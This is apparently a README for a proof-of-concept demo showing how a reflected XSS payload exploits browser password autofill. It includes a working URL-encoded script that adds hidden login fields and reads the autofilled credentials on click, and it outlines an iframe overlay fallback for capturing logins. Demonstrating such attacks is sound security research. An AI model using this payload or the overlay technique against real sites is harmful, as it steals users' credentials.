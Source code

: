 # XSS Autofill

To see it in action, serve from the `/public` directory.
 
Then 'log in' on the `index.html` page. When your browser asks to save your password, allow it.

The `logged-in.html` page has a mock reflected XSS vulnerability and loads a malicious script, `xss.js`.

This script adds a username and password field to the page, which your browser will kindly autofill.

But we can't access the values in these fields without some sort of user interaction, 
so we listen for a click event on window, at which point the fields are filled and we can get the values from the inputs.

## Reflected XSS
Since the script is quite short, it will fit in a URL for reflected XSS attacks, e.g. `q=%3Cscript%3Evar%20u%3Ddocument.createElement(%22input%22)%3Bu.name%3D%22username%22%2Cu.hidden%3D!0%2Cdocument.body.appendChild(u)%3Bvar%20p%3Ddocument.createElement(%22input%22)%3Bp.name%3D%22password%22%2Cp.type%3D%22password%22%2Cp.hidden%3D!0%2Cdocument.body.appendChild(p)%2Cwindow.addEventListener(%22click%22%2C()%3D%3E%7Bconsole.log(%60%20username%3A%20%24%7Bu.value%7D%0A%20password%3A%20%24%7Bp.value%7D%60)%7D)%3B%3C%2Fscript%3E`

This script could be targeted on a per-page basis, to get the username and password input names right, or it could just contain 
many variations of common username and password input names so the browser will autofill at least some of them.

## Fallback when the fields aren't autofilled
The script could be extended to display the login page of the site in an iframe, layered over the page where the XSS payload executes.
In this instances, a click even would be registered on the submit button that captures the username/password, stops propagation, and removes the iframe.

